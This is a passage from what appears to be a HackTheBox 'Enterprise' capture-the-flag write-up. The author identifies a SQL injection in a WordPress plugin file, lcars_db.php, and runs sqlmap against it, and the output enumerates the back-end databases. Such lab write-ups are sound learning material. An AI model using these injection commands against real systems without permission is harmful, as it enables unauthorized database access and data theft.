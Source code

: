 The banner is `LCARS` which I saw from http(443) service zip file.
It's asking us to put "Bridge Access Code"

I tried several random texts, but it was not working..
I think I need to revisit php files I found from https service.



# Retrieving valid credentials from Database

### SQL Injection

Also, let's focus on the message in `lcars.php` file.
It seems that `lcars` is installed as a plugin in Wordpress CMS.

What about those two DB-related php files : `lcars_db.php`, `lcars_dbpost.php`
They allows SQL query after taking the user's query.

After inspecting those codes, I concluded that `lcars_db.php` might be vulnerable to SQL Injection while `lcars_dbpost.php` is not.
The reason why I'm guessing `lcars_dbpost.php` is not vulnerable is because it's converting query into integers.

Let's try SQL Injection on `lcars_db.php` using `sqlmap`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --dbs

<SNIP>

[05:02:55] [INFO] the back-end DBMS is MySQL
[05:02:55] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
web server operating system: Linux Debian 8 (jessie)
web application technology: Apache 2.4.10, PHP 5.6.31
back-end DBMS: MySQL >= 5.0
[05:03:00] [INFO] fetching database names
[05:03:01] [INFO] retrieved: 'information_schema'
[05:03:01] [INFO] retrieved: 'joomla'
[05:03:02] [INFO] retrieved: 'joomladb'
[05:03:02] [INFO] retrieved: 'mysql'
[05:03:02] [INFO] retrieved: 'performance_schema'
[05:03:03] [INFO] retrieved: 'sys'
[05:03:03] [INFO] retrieved: 'wordpress'
[05:03:03] [INFO] retrieved: 'wordpressdb'
available databases [8]:
[*] information_schema
[*] joomla
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
[*] wordpress
[*] wordpressdb

[05:03:03] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/enterprise.htb'                           
```
